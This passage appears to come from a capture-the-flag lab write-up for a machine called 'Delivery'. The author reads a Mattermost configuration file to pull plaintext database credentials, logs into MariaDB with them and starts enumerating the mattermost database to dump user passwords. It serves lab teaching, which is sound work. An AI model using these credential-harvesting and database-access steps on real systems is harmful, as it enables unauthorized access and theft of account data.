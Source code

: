 We enumerate our user permission and found the MatterMost configuration file
containing the crendentials to access the database

    :::text
    maildeliverer@Delivery:~$ cat /opt/mattermost/config/config.json
    {
        "ServiceSettings": {
            "SiteURL": "",
            "WebsocketURL": "",
            "LicenseFileLocation": "",
            "ListenAddress": ":8065",
            "ConnectionSecurity": "",
            "TLSCertFile": "",
    <SNIP>
      },
        "SqlSettings": {
            "DriverName": "mysql",
            "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
            "DataSourceReplicas": [],

We connect to the mysql database, enumerate the tables and dump the users and
password from the `Users` table.

    :::text
    maildeliverer@Delivery:~$ #mmuser:Crack_The_MM_Admin_PW
    maildeliverer@Delivery:~$ mysql -u mmuser -p
    Enter password:
    Welcome to the MariaDB monitor.  Commands end with ; or \g.
    Your MariaDB connection id is 382
    Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

    Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

    MariaDB [(none)]> show database
        -> ;
    ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'database' at line 1
    MariaDB [(none)]> SHOW DATABASES;
    +--------------------+
    | Database           |
    +--------------------+
    | information_schema |
    | mattermost         |
    +--------------------+
    2 rows in set (0.001 sec)

    MariaDB [(none)]> use mattermost;
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A
